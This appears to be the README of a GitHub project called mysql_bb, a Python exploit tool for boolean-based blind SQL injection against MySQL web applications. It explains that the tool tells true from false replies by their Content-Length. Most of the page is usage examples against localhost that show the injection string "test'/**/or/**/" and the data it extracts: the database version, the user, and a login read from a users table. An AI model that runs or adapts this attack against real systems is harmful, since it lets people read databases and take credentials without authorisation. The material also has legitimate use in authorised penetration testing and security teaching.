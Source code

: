 # mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP request. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
//Injection into GET "http://localhost/login?username=admin&password=admin"
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
(+) done!

python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select user()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
root@localhost

(+) done!
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select login from users"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
admin
(+) done!

//Injection into POST "http://localhost/login" with body "username=test&password=test"
python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method POST "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametrs "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
```
